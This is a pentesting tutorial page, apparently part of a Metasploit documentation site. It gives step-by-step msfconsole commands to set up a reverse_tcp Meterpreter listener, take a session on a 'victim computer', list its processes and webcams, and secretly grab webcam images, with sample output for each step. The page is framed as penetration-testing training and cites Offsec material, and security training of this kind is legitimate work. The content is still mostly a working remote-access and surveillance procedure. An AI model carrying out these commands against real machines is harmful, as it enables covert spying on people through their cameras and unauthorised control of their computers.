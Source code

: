 ```yaml
---
title: Webcam Capture
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 7
---
```


# Webcam Capture

## Introduction

The collection phase holds significance in the penetration testing methodology, and Meterpreter provides a module enabling the capture of webcam shots from a targeted laptop or workstation.

## Step-by-Step Guide

### 1. Create the meterpreter binary

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer

### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Check webcam list
```bash
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro (VFW)
```

### 5. Run webscam_snap
```bash
meterpreter > webcam_snap -h
Usage: webcam_snap [options]
Grab a frame from the specified webcam.

OPTIONS:

    -h      Help Banner
    -i   The index of the webcam to use (Default: 1)
    -p   The JPEG image path (Default: 'gnFjTnzi.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'true')

meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
```

## Reference
https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#webcam_snap